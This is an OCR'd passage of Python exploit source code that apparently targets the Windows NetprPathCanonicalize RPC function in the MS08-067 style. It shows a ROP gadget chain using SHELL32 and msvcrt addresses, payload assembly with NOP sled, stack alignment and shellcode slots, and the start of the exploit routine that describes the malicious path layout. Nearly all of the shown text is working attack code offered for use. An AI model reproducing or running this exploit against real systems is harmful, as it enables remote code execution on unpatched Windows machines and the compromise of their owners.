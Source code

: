         0x7cadc046,  # &Writable location [SHELL32.dll]
        0x7c92940e,  # POP EDI # RETN [SHELL32.dll] 
        0x7c9b2678,  # RETN (ROP NOP) [SHELL32.dll]
        0x77bdf0da,  # POP EAX # RETN [msvcrt.dll] 
        0x90909090,  # nop
        0x7c8f417c,  # PUSHAD # RETN [SHELL32.dll]     
    ]
    return ''.join(pack('<I', _) for _ in rop_gadgets)


def payload():
    plsize   = 508
    ploffset = 106
    plnops   = 4
    stkalign = "\x81\xE4\xF0\xFF\xFF\xFF"
    
    rop   = deprop()
    
    nops = "\x90" * (plsize - ploffset)
    
    payload = list('\x41' * plsize)
    payload[ploffset: (ploffset + len(nops))] = nops
    
    # prepare the shellcode parts
    # calc offsets
    depoffset = (ploffset + len(rop))
    salinoffset = (depoffset + plnops)
    shellcodeffset = (depoffset + plnops + len(stkalign))
    
    # assemble
    payload[ploffset: depoffset] = rop
    payload[salinoffset: shellcodeffset] = stkalign
    payload[shellcodeffset: (shellcodeffset + len(SHELLCODE))] = SHELLCODE
    
    return ''.join(payload)
	
 
	def exploit(target):
	    """
	    NET_API_STATUS NetprPathCanonicalize(
	     [in, string, unique] SRVSVC_HANDLE ServerName,
	     [in, string] WCHAR* PathName,                     <- Vulnerable parameter
	     [out, size_is(OutbufLen)] unsigned char* Outbuf,
	     [in, range(0,64000)] DWORD OutbufLen,
	     [in, string] WCHAR* Prefix,
	     [in, out] DWORD* PathType,
	     [in] DWORD Flags
	     );
   
	   The evil path Size will be 618 the path format will be similar to metasploit:
	   [UNICODE PREFIX][payload 508][trigger 14][pading 14][landing buffer 78][null 2]
	    """
	    jumperoffset = 4
	    ldsize = 78
    
	    SERVER_LENGTH = 6
	    server = rand_text_alpha(SERVER_LENGTH)
	    prefix = '\\'
	    outbuf = 2
	    path_type = 1
	    flags = 0
    
	    trigger = to_unicode("\\..\\..\\")
	    pad = to_unicode("ACSDPOX")    
    